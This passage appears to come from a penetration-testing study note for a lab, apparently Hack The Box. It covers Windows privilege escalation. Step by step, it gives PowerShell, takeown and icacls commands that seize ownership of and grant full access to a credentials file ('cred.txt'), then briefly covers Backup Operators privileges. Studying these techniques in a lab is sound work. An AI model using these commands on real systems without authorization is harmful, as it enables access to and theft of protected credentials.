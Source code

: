 ```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

The file owner is hidden, back up until you can see an owner.

```
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Once the owner has been flagged, take the ownership of the file.

```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Now you should see the owner with the previous PowerShell command.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

It's possible to update the file ACL if there are restrictions.

```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Now `htb-student` has full access for this file.

## Windows Group Privileges

### Windows Built-in Groups

* List of built-in groups : [link](https://ss64.com/nt/syntax-security\_groups.html)
* List of privileged accounts : [link](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

### Backup Operators

It grants `SeBackupPrivilege` and `SeRestorePrivileges` to its membership. This will let us copy a file from a folder, event if there is no ACE for us in the folder's ACL.

```
PS> whoami /groups
PS> whoami /priv
```

<figure><img src="../../.gitbook/assets/groups.png" alt=""><figcaption></figcaption></figure>
